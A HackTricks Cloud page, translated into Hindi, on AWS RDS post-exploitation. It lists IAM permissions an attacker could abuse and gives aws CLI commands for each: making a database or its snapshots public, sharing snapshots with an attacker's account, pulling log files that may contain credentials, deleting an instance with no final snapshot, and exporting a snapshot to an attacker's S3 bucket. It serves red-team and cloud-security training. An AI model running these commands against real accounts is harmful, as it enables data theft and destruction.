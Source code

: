 # AWS - RDS पोस्ट एक्सप्लॉइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## RDS

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

यदि हमलावर के पास पर्याप्त अनुमतियाँ हैं, तो वह **DB को सार्वजनिक रूप से उपलब्ध** बना सकता है, DB का स्नैपशॉट बनाकर, और फिर स्नैपशॉट से एक सार्वजनिक रूप से उपलब्ध DB बनाकर।
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

इन अनुमतियों के साथ एक हमलावर **DB का स्नैपशॉट बना सकता है** और इसे **सार्वजनिक रूप से** **उपलब्ध** कर सकता है। फिर, वह बस अपने खाते में उस स्नैपशॉट से एक DB बना सकता है।

यदि हमलावर के पास **`rds:CreateDBSnapshot`** नहीं है, तो भी वह **अन्य** बनाए गए स्नैपशॉट्स को **सार्वजनिक** बना सकता है।

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` अनुमति वाला एक हमलावर **RDS इंस्टेंस की लॉग फ़ाइलों के हिस्से डाउनलोड कर सकता है**। यदि संवेदनशील डेटा या पहुँच क्रेडेंशियल्स गलती से लॉग किए जाते हैं, तो हमलावर इस जानकारी का उपयोग अपने विशेषाधिकारों को बढ़ाने या अनधिकृत क्रियाएँ करने के लिए कर सकता है।

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी तक पहुँच या लीक किए गए क्रेडेंशियल्स का उपयोग करके अनधिकृत क्रियाएँ।

### `rds:DeleteDBInstance`

इन अनुमतियों के साथ एक हमलावर **मौजूदा RDS इंस्टेंस को DoS कर सकता है**।

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**संभावित प्रभाव**: मौजूदा RDS उदाहरणों का हटाना, और डेटा का संभावित नुकसान।

### `rds:StartExportTask`

{% hint style="info" %}
TODO: परीक्षण करें
{% endhint %}

इस अनुमति के साथ एक हमलावर **RDS उदाहरण स्नैपशॉट को S3 बकेट में निर्यात कर सकता है**। यदि हमलावर के पास गंतव्य S3 बकेट पर नियंत्रण है, तो वे निर्यात किए गए स्नैपशॉट में संवेदनशील डेटा तक पहुंच प्राप्त कर सकते हैं।

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**संभावित प्रभाव**: निर्यातित स्नैपशॉट में संवेदनशील डेटा तक पहुंच।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
